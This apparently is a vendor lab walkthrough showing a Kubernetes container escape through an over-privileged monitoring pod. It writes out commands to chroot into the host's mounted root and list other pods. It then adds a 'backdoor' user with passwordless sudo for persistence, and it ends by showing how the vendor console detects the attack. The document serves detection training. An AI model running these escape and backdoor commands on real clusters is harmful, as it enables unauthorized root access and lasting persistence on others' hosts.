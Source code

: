 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. In this demo, we will exploit those extra permissions to escape the container environment and access the host machine. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```

In this scenario, the attacker has exploited a vulnerability in an application running in this container, obtaining a shell in the container environment. In theory, this shell should be restricted to only this container environment. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder. Running `ls` shows what seems to be the host machine's root directory.

```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the mounted host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, and acting as root, which gives us all kinds of access. Depending on the software that is available on the machine, there are a few different exploits we could attempt. We can use the `which` command to test a few different options:

```sh
which PROGRAM
```

<details>
    <summary>If <code>docker</code> is installed</summary>

With docker, we can see all of the pods that are running on the node:

```sh
docker ps
```

This will likely show many containers; to get a clearer picture, let's filter the output:

```sh
docker ps | grep 'payrolldb'
```

```
f1574caaf944   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...9-ee3f1b0b1188_0
26dd4574d310   mongo                         "docker-entrypoint.s…"   2 minutes ago    Up 2 minutes     k8s_payrolldb_payrolldb-6cd444...52467_0
48aa23a10ad4   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-h...1b0b1188_0
fab536699cb3   registry.k8s.io/pause:3.9     "/pause"                 2 minutes ago    Up 2 minutes     k8s_POD_payrolldb-6cd4447758-l...0
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If <code>crictl</code> is installed</summary>

For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

In the list of pods, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
53544824341d9       7 minutes ago       Ready               payrolldb-b4889ff59-frtgd                    payroll-prod        5                   (default)
b4c2899629bab       7 minutes ago       Ready               payroll-calculator-85c9955696-bqz48          payroll-prod        5                   (default)
ffe96bd760b35       7 minutes ago       Ready               payroll-calculator-85c9955696-kkz7t          payroll-prod        5                   (default)
...
```

Let's look at the containers that are named payrolldb:

```sh
crictl ps --name payrolldb
```
```
CONTAINER           IMAGE                      CREATED             STATE               NAME                ATTEMPT             POD ID              POD
ae76168d27343       mongo@sha256:1a7...060be   8 minutes ago       Running             payrolldb           5                   53544824341d9       payrolldb-b4889ff59-frtgd
ef1a7665382ce       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   e053f9804b343       payrolldb-67d4cf9fd9-vtlc9
060e3cc5e6f72       mongo@sha256:1a7...060be   9 minutes ago       Running             payrolldb           5                   8581f572b57c4       payrolldb-6cd4447758-hzldw
```

At this point, we could `exec` into one of these containers and try to extract information, but for now, let's move on.

</details>

<details>
    <summary>If neither is installed</summary>

If we don't have the tools we need, that doesn't matter: we have root access. This means we can install anything we need, such as docker:

```sh
apt install docker
```

> Note: the package installer and package may vary depending on the machine. Try `yum` or `apk` if `apt` isn't available. If the package is not found, try searching for it or updating the package list (`apt update`).

</details>

Let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```

Provide values for the password and name if asked, or hit enter to skip them. Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
echo 'backdoor ALL=(ALL) NOPASSWD: ALL' | sudo tee -a /etc/sudoers
```

Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we investigated all containers running on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags that are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. If the score is abnormally low (under 100), the data has likely not finished coming in yet. Refreshing after a minute should show a much higher score value. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive Bash shell at the top of the container (the shaded box). Underneath, we can see the attacker running some investigation commands, escaping with the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
